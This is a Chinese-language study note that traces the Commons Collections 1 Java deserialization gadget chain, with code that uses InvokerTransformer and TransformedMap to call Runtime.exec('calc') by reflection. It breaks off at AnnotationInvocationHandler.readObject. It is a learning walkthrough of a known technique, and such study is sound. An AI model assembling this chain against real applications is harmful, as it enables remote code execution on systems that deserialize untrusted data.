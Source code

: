 通过观察该方法,发现该方法接受一个任意对象为参数,并且通过反射调用方法,方法名和参数在构造方法中可控

先自己写一遍自己认为的能调用exec的代码

```java
InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new String[]{"calc"});
        invokerTransformer.transform(Runtime.getRuntime());
```

接着拓展这条调用链,找一找有没有不同名的类调用了transform方法

跟着教程在TransformedMap类中找到了一个checkSetValue方法中调用了transform方法

```java
protected Object checkSetValue(Object value) {
        return valueTransformer.transform(value);
    }
```

该类的构造方法为protected,于是在该类中找有无使用了该构造方法的方法,找到一个`decorate`方法

```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }
```

该方法根据注释是一个用来创建transforming map的工厂方法 



setValue调用了checkSetValue方法,checkSetValue方法又调用了transform方法

> 至于为什么会这样呢?

因为TransformedMap继承了`AbstractInputCheckedMapDecorator`这个抽象类,这个抽象类中checkSetValue是抽象方法,被`TransformedMap`实现,所以setValue中`parent.checkSetValue`调用的就是这个被实现的方法

![image-20220310150430013](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220310150430013.png)

![image-20220310150131340](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220310150131340.png)

```java
InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new String[]{"calc"});
        HashMap<Object,Object> map=new HashMap<Object, Object>() ;
        map.put("key","value");
        Map<Object,Object> decorate = TransformedMap.decorate(map, null, invokerTransformer);//返回一个里面对象类型是Transformer map
        for (Map.Entry entry:decorate.entrySet()
             ) {
            entry.setValue(Runtime.getRuntime());
        }
```

接着在setValue上面再拓展,找有没有在readObject中使用了setValue的类

找到AnnoationInvocationHandler中的readObject方法中有使用setValue
